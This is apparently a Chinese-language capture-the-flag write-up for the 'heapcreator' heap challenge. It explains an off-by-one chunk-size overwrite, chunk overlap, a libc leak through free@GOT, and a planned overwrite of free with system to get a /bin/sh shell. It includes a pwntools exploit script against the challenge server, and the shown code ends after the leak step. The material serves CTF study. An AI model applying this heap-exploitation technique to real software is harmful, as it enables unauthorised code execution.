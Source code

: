 根据create_heap函数可知，在申请堆的时候会额外生成一个0x10的chunk保存到数组heaparray[i]，用来存储我们申请chunk的大小和地址，而我们申请的堆用来存放内容

利用思路：
1、利用off by one 漏洞覆盖下一个chunk的size，伪造chunk大小
2、然后申请伪造的chunk，产生chunk overlap，将内容指针修改free_got，然后用show函数打印，从而泄漏libc基址
3、找到system地址，用edit函数将free_got修改成system_addr
4、调用system("/bin/sh")

```python
#!coding:utf-8
from pwn import *

r=remote("node3.buuoj.cn",26941)
#r=process('./heapcreator')
elf=ELF('./heapcreator')
libc=ELF('./libc-2.23.so')
free_got=elf.got['free']

def create(size,value):
    r.recvuntil('Your choice :')
    r.sendline('1')
    r.recvuntil('Size of Heap :')
    r.sendline(str(size))
    r.recvuntil('Content of heap:')
    r.sendline(value)

def edit(index,value):
    r.recvuntil('Your choice :')
    r.sendline('2')
    r.recvuntil('Index :')
    r.sendline(str(index))
    r.recvuntil('Content of heap : ')
    r.sendline(value)

def show(index):
    r.recvuntil('Your choice :')
    r.sendline('3')
    r.recvuntil('Index :')
    r.sendline(str(index))

def delete(index):
    r.recvuntil('Your choice :')
    r.sendline('4')
    r.recvuntil('Index :')
    r.sendline(str(index))


create(0x18,'aaaaaaa')#chunk0 
#为什么是0x18：实际上分配了0x10的chunk，目的是重用chunk1的prev_size的8个字节，为后面的修改chunk1的size做准备
create(0x10,'aaaaaaa')#chunk1
create(0x10,'aaaaaaa')#chunk2
create(0x10,'/bin/sh\x00')#chunk3

payload='a'*0x18+'\x81'
edit(0,payload)#修改chunk1的size为0x81

delete(1)
size='\x08'.ljust(8,'\x00')
payload='b'*0x40+size+p64(free_got)
create(0x70,payload)#堆溢出到chunk2，修改chunk2的内容指针为free_got

show(2)#输出free真实地址,泄露libc基地址
r.recvuntil('Content :')
free_addr=u64(r.recvline()[:-1].strip().ljust(8,'\x00'))
print 'free_adr: '+hex(free_addr)
```